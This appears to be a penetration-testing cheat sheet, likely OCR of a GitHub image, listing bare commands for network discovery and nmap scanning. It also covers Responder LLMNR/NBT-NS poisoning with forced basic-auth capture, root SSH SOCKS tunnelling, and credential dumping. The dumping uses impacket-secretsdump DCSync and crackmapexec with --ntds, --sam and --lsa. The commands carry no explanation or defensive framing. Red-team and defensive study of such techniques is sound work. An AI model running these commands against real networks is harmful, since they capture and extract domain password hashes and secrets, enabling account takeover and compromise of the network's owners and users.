 # Network Information

## Passive

arp -a

ifconfig / ipconfig

tcpdump -i eth0

netdiscover

## Scanning

nbtscan 192.168.1.1/24

nbtscan-unixwiz 192.168.1.1/24

nmap -sSV --open -iL ips.txt -oA output

sudo nmap --script broadcast-dhcp-discover

ping 255.255.255.255

## Responder

### Analyze Mode
responder -I eth0 -A

responder -I eth0 -wFP

### Force Basic Auth
responder -I eth0 -wbFP


# SSH Tunneling

### Socks proxy
ssh -D 8080 root@<ip>

Set Firefox network settings to use socks5 proxy 127.0.0.1 8080, must remove the HTTP proxy

# Dumping

## DCSYNC

impacket-secretsdump DOMAIN/user:password@IP -history -outputfile output

crackmapexec smb <ip> -u user -p password --ntds

## Other

crackmapexec smb <ip> -u user -p password --sam

crackmapexec smb <ip> -u user -p password --lsa
